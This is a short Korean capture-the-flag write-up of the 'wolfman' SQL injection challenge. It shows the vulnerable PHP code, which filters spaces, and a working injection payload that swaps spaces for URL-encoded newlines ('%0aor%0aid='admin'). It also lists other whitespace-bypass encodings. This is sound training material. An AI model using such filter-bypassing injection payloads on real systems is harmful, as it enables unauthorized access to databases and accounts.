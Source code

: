 # wolfman

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- 공백을 필터링 한다.

## 3. Solution
공백 우회를 통해 문제를 해결할 수 있다.


변수명 | 값
---|:---:
`pw` | 1234'`%0a`or`%0a`id='admin


공백(0x20)을 우회하는 방법에는 여러가지가 있다. 
`%0a`, `%0b`, `%0c`, `%0d` ...

간단한 문제이지만, 공백 우회에 관한 개념이 없다면 어려울 수 있는 문제이다.
